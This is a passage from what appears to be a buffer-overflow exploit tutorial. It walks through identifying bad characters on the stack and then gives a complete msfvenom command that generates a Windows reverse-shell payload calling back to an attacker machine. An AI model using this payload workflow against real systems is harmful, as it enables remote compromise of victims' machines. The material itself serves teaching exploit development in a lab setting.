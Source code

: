 ![poc-badchars](poc-badchars.png)

After the first run, we see nothing on the "stack". So we found our first "badchar" `\x00`.

![poc-badchar1](poc-badchar1.png)

So we remove it and try again.
This time we can find the sequence `01,02,03...` on the "stack". But it breaks again at `\x0a`, and a third time at `\x0d`.
After finding all the "BadChars" the "stack" should look like this:

![poc-badchar2](poc-badchar2.png)

With this knowledge we can move into the next phase. Creating our "shellcode".

# Shellcode
"Shellcode" is basicly a synonym for "payload". It can be anything you want.
For this we want to spawn a simple "reverse-shell". It forces the victim to call back to our attacker machine.

Our "Kali VM" has all the tools we need for that. I used "msfvenom" for this task.

`msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=192.168.1.18 LPORT=4444 -b '\x00\x0a\x0d' -f python`
